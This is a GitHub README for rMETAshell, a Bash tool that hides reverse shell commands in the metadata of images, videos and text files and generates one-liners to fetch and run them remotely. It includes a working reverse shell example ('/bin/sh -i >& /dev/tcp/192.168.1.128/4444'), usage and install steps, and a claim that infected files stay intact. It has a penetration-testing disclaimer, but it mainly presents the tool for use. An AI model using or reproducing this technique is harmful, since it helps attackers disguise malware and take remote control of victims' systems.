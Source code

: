 # rMETAshell - A Reverse Shell Metadata Injection and One-Liner Generation Toolkit
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> 
 ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 

<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!


# New!:

New one-liner execution methods!

Supports png, jpg, jpeg, jpe, jif, jfif, jfi, jp2, j2k, jpf, jpx, jp2a, j2c, tif, tiff, crw, cr2, dng, mrw, nef, pef, arw, rw2, sr2, srw, orf, png, gif, bmp, dib, ico, pgf, jp2, j2k, jpf, jpx, jp2a, j2c, avi, mov, qt, moov, f4v, mp4, m4a, m4b, m4p, m4v, mp4v, mqv, jp2, j2k, jpf, jpx, jp2a, j2c, mpg, mpeg, m2v, mpv, m2p, m1v, m1p, m4v, divx, xvid, txt, text, log, md, markdown, html, htm, xml, json, csv, tsv, sql, yml, yaml, ini, cfg, conf, properties, prop, props, bat, sh, bash, zsh, ps1, ps, py, python, rb, ruby, perl, pl, php, js, javascript, jsx, ts, typescript, java, c, cpp, h, cs, csharp, vb, vbnet, swift, kotlin, rust, go, groovy, scala, lua, r, sas, scss, sass, less, styl, sql, plsql, psql, tsql, vbs, vba, vbscript, powershell, ps1xml, psd1, psm1, tex, latex, ltx, bib, rtf, doc, docx, xls, xlsx, ppt, pptx and pdf injection!

# Description:

rMETAshell is a command-line tool for injecting a reverse shell command into the metadata and generating one-liner execution methods.

# How It Works:
rMETAshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Metadata-Based Shell Injection: Inject reverse shell commands into image, video, and text file metadata, ensuring seamless integration with target systems.

One-Liner Generation: Automatically generate one-liners for quick and efficient remote shell access. Choose from a variety of execution methods tailored to different file formats.

Supported File Formats: rMETAshell supports the following file formats for shell injection and one-liner generation:

Image Formats: JPEG, PNG, BMP, and more.
Video Formats: MP4, AVI, MKV, and others.
Text Formats: TXT, CSV, XML, and more.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rMETAshell
   ```

2. Change to the project directory:

   ```
   cd rMETAshell
   ```

3. Make the script executable:

   ```
   chmod +x rMETAshell.sh
   ```

## Usage

```
./rMETAshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <FILENAME> <ZIP>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<FILENAME>` - The name of the media file.
- `<ZIP>` -The name of the zip file where the infected file is stored.

**Example:**

```
./rMETAshell.sh "/bin/sh -i >& /dev/tcp/192.168.1.128/4444 0>&1" image.jpg test.zip
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rMETAshell.

**Warning: Ethical and Responsible Use Only
rMETAshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
